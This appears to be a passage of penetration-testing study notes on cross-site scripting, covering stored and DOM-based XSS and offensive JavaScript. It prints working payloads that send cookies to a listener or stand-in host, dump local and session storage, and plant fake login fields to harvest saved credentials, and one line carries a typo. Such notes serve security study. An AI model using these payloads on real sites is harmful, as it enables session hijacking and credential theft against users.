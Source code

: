 	- **Stored XSS:**
		- The malicious script is stored on the server (e.g., in a database) and is served to users who access the affected page.
		- `<script>var i = new Image; i.src="webhookurl/?"+document.cookie;</script>`
		- This is useful to steal the cookie and send it to the web server that is listening
		
	- **DOM based:**
		- The vulnerability exists in the client-side code (JavaScript) where the script modifies the DOM without proper sanitization, allowing attackers to execute malicious code.
			- Example:
				- `<img src = x onerror = "prompt(1)">`

- Depending on the application XSS can appear in different contexts. Identifying this context is going to be key to our approach.
	- When testing for XSS we need to identify two things:
		- Where our payload appears in the response
		- What input validation exists

- **Offensive JavaScript for API:**

	- Building requests:
		- XMLHTTP request:
			- `let xhr = new XMLHttpRequest()`
			- `xhr.open('GET', 'http://localhost/endpoint',true)`
			- `xhr.send('email=update@email.com')`
		- Fetch API:
		- `fetch('http://localhost/endpoint')`
	- Stealing cookies:
		- `<img src="http://localhost?c='+document.cookie+'"`
		- `fetch("http://localhost?c="+documnet.cookie);`
	- Accessing local & session storage:
		- `let localStorageData = JSON.stringify(localStorage)`
		- `let sessionStorageData = JSON.stringify(sessionStorage)`
	- Saved creds:
		- `// create the input elements`
		- `let usernameField = document.createElement("input")`
		- `usernameField.type = "text"`
		- `usernameField.name = "username"`
		- `usernameField.id = "username"   `
		- `let passwordField = document.createElement("input")`
		- `passwordField.type = "password"`
		- `passwordField.name = "password"`
		- `passwordField.id = "password"   `
		- `// append the elements to the body of the page`
		- `document.body.appendChild(usernameField)`
		- `document.body.appendChild(passwordField)   `
		- `// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)`
		- `setTimeout(function() {`
			- `console.log("Username:", document.getElementById("username").value)``console.log("Password:", document.getElementById("password").value)``}, 1000);`  
		